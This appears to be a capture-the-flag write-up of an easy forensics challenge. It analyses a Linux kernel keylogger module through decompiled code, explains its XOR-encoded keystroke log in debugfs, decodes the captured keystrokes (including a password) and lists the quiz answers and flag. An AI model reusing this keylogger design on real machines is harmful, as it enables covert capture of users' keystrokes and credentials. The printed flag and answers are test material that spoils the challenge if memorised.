

# ColossalBreach

**Difficulty:** EASY

## Challenge Description

A devastating data breach has occurred in a remote satellite on the edge of the Frontier Cluster. You'll need to investigate the satellite, discover how the data was stolen, and finally discover what was stolen in order to prevent it from falling into the wrong hands.

## Solution

### Files Provided
- `brainstorm.ko`: A kernel module for Linux.
- `logs`: Contains byte data.  
  

### Analysis

#### 1. Disassembling the Kernel Module
Using `IDA` to disassemble and analyze the module, we focus on two key functions:

##### `spy_init()`
```cpp
int __cdecl spy_init()
{
  dentry *dir; // rax

  _fentry__();
  LODWORD(dir) = -22;
  if ( (unsigned int)codes <= 2 )
  {
    dir = (dentry *)debugfs_create_dir("spyyy", 0LL);
    subdir = dir;
    if ( (unsigned __int64)dir <= 0xFFFFFFFFFFFFF000LL )
    {
      if ( dir )
      {
        if ( debugfs_create_file("keys", 256LL, dir, 0LL, &keys_fops) )
        {
          register_keyboard_notifier(&spy_blk);
          printk(&unk_C11);
          LODWORD(dir) = 0;
          return (int)dir;
        }
        debugfs_remove(subdir);
      }
      LODWORD(dir) = -2;
    }
  }
  return (int)dir;
}
```

##### `spy_cb()`
```cpp
// bad sp value at call has been detected, the output may be wrong!
__int64 __fastcall spy_cb(__int64 a1, __int64 a2, __int64 a3, __int64 a4)
{
  _DWORD *v4; // rdx
  size_t v6; // rax
  size_t v7; // rdx
  char *v8; // rcx
  char *v9; // rax
  size_t v10; // rbx
  char *v11; // rdi
  char buf[8]; // [rsp+0h] [rbp-1Ch] BYREF
  int v13; // [rsp+8h] [rbp-14h]
  unsigned __int64 v14; // [rsp+Ch] [rbp-10h]

  _fentry__(a1, a2, a3, a4);
  v14 = __readgsqword(0x28u);
  v13 = 0;
  *(_QWORD *)buf = 0LL;
  if ( v4[2] )
  {
    keycode_to_string((unsigned int)v4[5], (unsigned int)v4[3], buf, (unsigned int)codes);
    v6 = strnlen(buf, 0xCuLL);
    v7 = v6;
    if ( v6 > 0xC )
      spy_cb_cold(buf, 12LL, v6);
    if ( v6 == 12 )
      JUMPOUT(0x2E3LL);
    if ( v6 )
    {
      v8 = buf;
      v9 = &buf[v6];
      do
        *v8++ ^= 0x19u;
      while ( v9 != v8 );
      v10 = buf_pos + v7;
      v11 = &keys_buf[buf_pos];
      if ( buf_pos + v7 > 0x3FFF )
      {
        v10 = v7;
        v11 = keys_buf;
      }
      strncpy(v11, buf, v7);
      buf_pos = v10;
      if ( codes )
      {
        keys_buf[v10] = 10;
        buf_pos = v10 + 1;
      }
    }
  }
  return 1LL;
}
```

### Functionality Analysis

#### `spy_init()`: Initialization
- **Purpose**: Called when the module is loaded into the kernel (e.g., using `insmod`).
- **Creates Files**: 
  - Creates a directory `/sys/kernel/debug/spyyy`.
  - Creates a file `/sys/kernel/debug/spyyy/keys` to log keystrokes.
- **Registers Notifier**: Registers a callback function (`spy_cb`) to be triggered on keyboard events.

#### `spy_cb()`: Capturing and Encoding Keystrokes
- **Callback Function**: Executes on every keyboard event.
- **Key Conversion**: Converts keycodes to readable strings using `keycode_to_string`.
- **XOR Encoding**: Encodes the string using XOR with `0x19`.
  ```cpp
  do
    *v4++ ^= 0x19u;
  while ( v5 != v4 );
  ```
- **Buffer Storage**: Stores the encoded string in a shared buffer (`keys_buf`).

### Solution Approach

#### Decoding the Logs
The `logs` file contains XOR-encoded data. To decode:
1. Perform XOR with the same key (`0x19`).
2. Use the following Python script:
```python
# Key for decryption
XOR_KEY = 0x19

# Open the log file in binary read mode ('rb')
with open('logs', 'rb') as f:
    encrypted_data = f.read()

# Create a bytearray to store the decrypted data
decrypted_data = bytearray()

# Iterate through each byte in the encrypted data
for byte in encrypted_data:
    # Perform XOR decryption and append to the result
    decrypted_data.append(byte ^ XOR_KEY)

# Print the result to the console
print(decrypted_data.decode('utf-8', errors='ignore'))
```

#### Decoded Output
After running the script, the decoded content is:
```
ls
pwd
clear
id
whoami
cd /opt
ls
cd /root/
ls -la
echo _RSHIFT__RSHIFT__RSHIFT_"_LSHIFT__LSHIFT__LSHIFT__LSHIFT_H_LSHIFT_I_RSHIFT_" _RSHIFT__RSHIFT__RSHIFT_> hey.txt
cat hey.txt
cd /home/
ls
cd htb
ls
cd _LSHIFT_Desktop
ls
echo _RSHIFT_"yoo sup boiiii_RSHIFT_" _RSHIFT_> hello.txt
cat hello.txt
cd /root/adam
nano pass.txt
adam _RSHIFT__RSHIFT__RSHIFT__RSHIFT__RSHIFT_: _RSHIFT__RSHIFT__RSHIFT__RSHIFT__RSHIFT__RSHIFT__RSHIFT_"supers3cur3passw0rd_RSHIFT_"_LCTRL__LCTRL_xy
clear
bye bye.
```

### Final Steps
Connect to the server and answer the questions:
```bash
nc 94.237.48.12 50533
[Quiz] ColossalBreach
Enter all answers correctly to receive the flag
Q1 (Attempt 1/3): Who is the module's author? 0xEr3n
Q2 (Attempt 1/3): What is the name of the function used to register keyboard events? register_keyboard_notifier
Q3 (Attempt 1/3): What is the name of the function that converts keycodes to strings? keycode_to_string
Q4 (Attempt 1/3): What file does the module create to store logs? Provide the full path /sys/kernel/debug/spyyy/keys
Q5 (Attempt 1/3): What message does the module print when imported? w00tw00t
Q6 (Attempt 1/3): What is the XOR key used to obfuscate the keys? 0x19
Q7 (Attempt 1/3): What is the password entered for 'adam'? supers3cur3passw0rd
Well done!
HTB{s34l_up_th3_br34ch}
```
